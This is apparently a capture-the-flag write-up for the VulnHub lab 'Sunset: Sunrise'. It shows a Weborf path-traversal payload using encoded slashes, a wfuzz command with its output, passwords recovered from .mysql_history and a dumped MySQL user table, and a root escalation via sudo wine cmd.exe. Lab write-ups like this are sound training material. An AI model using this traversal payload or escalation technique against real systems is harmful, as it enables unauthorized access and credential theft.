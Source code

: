 # Sunset: Sunrise

https://www.vulnhub.com/entry/sunset-sunrise,406/

## Reconnaisance

A quick nmap over all ports only revealed 22, 80, 3306 and 8080 open. No FTP this time.

Port 80 is hosting some sort of default nginx file, while 8080 seems to be hosting the var/www folder using something called Weborf/0.12.2. It showed html/ and when I clicked through, it contained `index.nginx-debian.html` that showed the same content as port 80.

Looking up Weborf with that version, it is vulnerable to path traversal when using encoding slashes, and testing this proved I could navigate throughout the machine.

## Exploring and wfuzz

I browsed around the machine, but couldn't find anything. I could reach the weborf home directory, but couldn't see anything in there. Following a hint, I decided to use wfuzz on it.

The path to show the directory was `http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2f`, and a useful wordlist for local user directory fuzzing is `/usr/share/wordlists/dirb/common.txt` on kali.

The following wfuzz command found several files: `wfuzz -w /usr/share/wordlists/dirb/common.txt --sc 200 http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2fFUZZ`:

```
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://192.168.53.7:8080/..%2f..%2fhome%2fweborf%2fFUZZ
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                          
===================================================================

000000001:   200        2 L      18 W     439 Ch      ""                                                                                                                               
000000003:   200        113 L    483 W    3526 Ch     ".bashrc"                                                                                                                        
000000016:   200        2 L      8 W      83 Ch       ".mysql_history"                                                                                                                 
000000019:   200        27 L     130 W    807 Ch      ".profile"                                                                                                                       

Total time: 13.47158
Processed Requests: 4614
Filtered Requests: 4610
Requests/sec.: 342.4987
```

Opening .mysql_history revealed:

```
show databases;
ALTER USER 'weborf'@'localhost' IDENTIFIED BY 'iheartrainbows44'; 
```

While I couldn't remote connect with mysql using the above, it did work for ssh.

## Mysql and sunrise

Once in as weborb, I looked around. Couldn't sudo -l, and my already thorough exploration told me little else was around. However, the entry above from the history table told me that while weborf couldn't connect to sql remotely, it could locally.

`mysql -p` plus the same password `iheartrainbows44` got me in to mysql, and I selected from the users table:

```
MariaDB [(none)]> select user, password from mysql.user;
+---------+-------------------------------------------+
| user    | password                                  |
+---------+-------------------------------------------+
| root    | *C7B6683EEB8FF8329D8390574FAA04DD04B87C58 |
| sunrise | thefutureissobrightigottawearshades       |
| weborf  | *A76018C6BB42E371FD7B71D2EC6447AE6E37DB28 |
+---------+-------------------------------------------+
3 rows in set (0.000 sec)

MariaDB [(none)]>
```

I was able to use the above password to `su sunrise`.

## Wine, CMD.exe, type

`sudo -l` revealed that sunrise could run /usr/bin/wine, a program for running windows executables under windows. Inside the sunrise home directory I had already discovered .wine, containing a windows file system. Using `sudo /usr/bin/wine cmd.exe` I was able to start a windows command prompt, helpfully running as root on the windows system. I had also discovered that the `z:` wine drive was hosting the linux file system, so used window's equivalent of `cat`, `type.exe` to read the root flag (after using `dir` to find it):

```
Z:\>cd root

Z:\root>type root.txt
            ^^                   @@@@@@@@@
       ^^       ^^            @@@@@@@@@@@@@@@
                            @@@@@@@@@@@@@@@@@@              ^^
                           @@@@@@@@@@@@@@@@@@@@
 ~~~~ ~~ ~~~~~ ~~~~~~~~ ~~ &&&&&&&&&&&&&&&&&&&& ~~~~~~~ ~~~~~~~~~~~ ~~~
 ~         ~~   ~  ~       ~~~~~~~~~~~~~~~~~~~~ ~       ~~     ~~ ~
   ~      ~~      ~~ ~~ ~~  ~~~~~~~~~~~~~ ~~~~  ~     ~~~    ~ ~~~  ~ ~~
   ~  ~~     ~         ~      ~~~~~~  ~~ ~~~       ~~ ~ ~~  ~~ ~
 ~  ~       ~ ~      ~           ~~ ~~~~~~  ~      ~~  ~             ~~
       ~             ~        ~      ~      ~~   ~             ~

Thanks for playing! - Felipe Winsnes (@whitecr0wz)

24edb59d21c273c033aa6f1689b0b18c

Z:\root>
```
